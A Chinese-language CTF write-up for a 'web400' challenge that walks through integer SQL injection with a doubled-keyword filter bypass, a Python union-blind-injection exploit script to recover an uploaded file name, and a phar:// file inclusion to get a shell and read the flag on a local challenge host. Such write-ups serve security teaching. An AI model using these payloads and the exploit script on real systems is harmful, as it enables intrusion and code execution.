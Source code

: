 ## web400 writeup

注册一个账号进入之后,发现download页面的收藏功能存在整数型sql注入
download的过程是用文件id到数据库中查找文件路径,然后读取文件返回.

所以可以用union联合注入,修改文件名,下载别的文件.
这里有过滤,双写可以绕过.

```
image=888%20ununionion%20selselectect%200x696e6465782e706870&image_download=%E6%94%B6%E8%97%8F
```
就可以下载index.php,然后利用次方法下载所有的文件,进行代码审计.
发现index.php 存在文件包含漏洞,但是限定了后缀必须是 .php文件

所以思路是利用php的phar协议绕过,但是却没有文件上传路径,所以需要利用注入获取文件名.
由于过滤了(),所以需要利用union盲注,来找文件名.
具体怎么union盲注,参考这里[https://wonderkun.cc/2017/02/26/基于union查询的盲注(感谢pcat牛不吝赐教)/](https://wonderkun.cc/2017/02/26/%E5%9F%BA%E4%BA%8Eunion%E6%9F%A5%E8%AF%A2%E7%9A%84%E7%9B%B2%E6%B3%A8(%E6%84%9F%E8%B0%A2pcat%E7%89%9B%E4%B8%8D%E5%90%9D%E8%B5%90%E6%95%99)/)

提供一个python的exp
```python
#!/usr/bin/python
# coding:utf-8

import requests

def getFilename():
    data="image=2%20aandnd%20image_name%20lilikeke%200x74657374%20ununionion%20selselectect%200x{filename}%20oorrder%20by%201&image_download=%E6%94%B6%E8%97%8F"
    url = "http://127.0.0.1:5555/downfile.php"
    headers = {
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"PHPSESSID=k6to46unk90e733r47qdqh8ll7",
        "User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36"
    }

    randStr="0123456789abcdefghijklmnopqrstuvwxyz{"
    fileName = "./Up10aDs/"
    for _ in range(33):
        print "[*]",fileName
        for i in range(len(randStr)):
            # print i
            tmpFileName = fileName+randStr[i]
            proxies = {"http":"127.0.0.1:8080"}
            res = requests.post(url,data=data.format(filename=tmpFileName.encode("hex")),headers=headers,proxies=proxies)
            # print res.text
            if "file may be deleted" not in res.text:
                fileName = fileName + randStr[i-1]
                break

if __name__ == '__main__':
    getFilename()
```

计算出filename为:[*] ./Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva 加上后缀名为自己上传文件的后缀名,就是文件名,所以文件名是 ./Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva.png
包含此文件就可以getshell了.
```
http://127.0.0.1:5555/index.php?file=phar://Up10aDs/y9c8v9ow3s6ans5o8oy5u3qnsdnckeva.png/1
```
在文件F1AgIsH3r3G00d.php读取到flag 
```
$flag = "flag{f1a4628ee1e9dccfdc511f0490c73397}";
```




